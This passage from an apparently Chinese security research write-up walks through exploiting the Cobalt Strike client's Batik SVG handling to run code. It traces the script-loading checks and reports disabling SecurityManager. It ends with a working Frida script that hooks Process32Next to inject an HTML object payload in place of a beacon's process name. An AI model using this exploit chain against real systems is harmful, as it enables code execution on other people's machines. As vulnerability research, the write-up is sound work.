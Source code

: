但是又遇到一个巨坑的问题，不知道什么情况被拦了，应该是同源策略的关系  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FGj2B7YclhBHbXVHpRrhh05VFaf3S4NyjY0nfHIjPOBbntP8qaxCfmA/640?wx_fmt=other&from=appmsg "")  
  
折腾了半天，加了一条禁用SecurityManager才解决问题（可能是不同batik版本的问题？），重新编译后即可成功启动计算器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1F0raW5P6rzNz32HfJ1vf2FfgLywEia4djLxlmz1ICUYgnibKzPWSJicOnQ/640?wx_fmt=other&from=appmsg "")  
  
也就是通过这种方式加载SVG就能成功执行上线了，迁移到CS中来，继续回到CS分析调用情况，在CS的batik的BaseScriptingEnvironment.java中跟进解析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FicHU2ia21lMR7uPTuaZ7FQ3krahW86UibQ7miapXZPn4GayKmBrUYVsQzg/640?wx_fmt=other&from=appmsg "")  
  
需要满足几个条件  
```
checkCompatibleScriptURL(type, purl);//条件1
man.getMainAttributes().getValue("Script-Handler")!=null //条件2
man.getMainAttributes().getValue("SVG-Handler-Class")!=null//条件3
```  
  
看网上文章好像在老版本里还没有Script-Handler和SVG-Handler-Class，还是var的变量形式（笑死）。下面两个条件是特定字段不为空，第一个方法再跟一下，真是一个套一个...  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FocMrgEicXODQYrnLKC7M44ib3BTlyNNRsFQPS02nC1EbA7YkQ5mhS1hQ/640?wx_fmt=other&from=appmsg "")  
  
继续跟checkLoadScript和getScriptSecurity  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FcmKK6LJLX2OoS6cEnUfcUFsAkwSJebviaz9Yp8tdw0zGLsP6uJdSykA/640?wx_fmt=other&from=appmsg "")  
  
最终跟到了DefaultScriptSecurity  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FMjeXOXokNgticHDKzibobGCeiaDYryu127uomVkxRhSqnNcwVv6eNIuZg/640?wx_fmt=other&from=appmsg "")  
  
可以看到条件就一个，只要远程svg和jar包文件地址相同即可。  
  
长度限制的绕过  
  
上面已经说到了117的长度限制，然鹅如果使用object标签肯定长度会超，分析了一下发现了一个很有意思的东西，还是前面分析过的HTML解析部分，有一个frame标签的解析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FQw0N84U1mPakEAWsib724kwcDmFyZX59xcAbbNpRFxA7hp67fJeDLTg/640?wx_fmt=other&from=appmsg "")  
  
使用标签方式可以绕过长度限制，但是发现出现了一堆报错  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FTD3n4HCbZceMtGpv0HqSo5ux44psRjMbEfHHg587XlRYLfkwSytbsw/640?wx_fmt=other&from=appmsg "")  
  
不知道发生了什么，又整了半天没成功，但是可以通过另一个方式去复现，就是Hook WindowsAPI，以后可能会写frida的文章吧（咕咕咕，下次一定），这次先不展开了，主要脚本如下  
```
var payload="<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name='URI' value='http://127.0.0.1/test.svg'></param></object>"  
    var pProcess32Next = Module.findExportByName("kernel32.dll", "Process32Next")
    Interceptor.attach(pProcess32Next, {
        onEnter: function(args) {
            this.pPROCESSENTRY32 = args[1];
            if(Process.arch == "ia32"){
                this.exeOffset = 36;
            }else{
                this.exeOffset = 44;
            }
            this.szExeFile = this.pPROCESSENTRY32.add(this.exeOffset);
        },
        onLeave: function(retval) {
            if(this.szExeFile.readAnsiString() == "beacon.exe") {
                send("[!] Found beacon, injecting payload");
                this.szExeFile.writeAnsiString(payload);
            }        
        }
    })
```  
  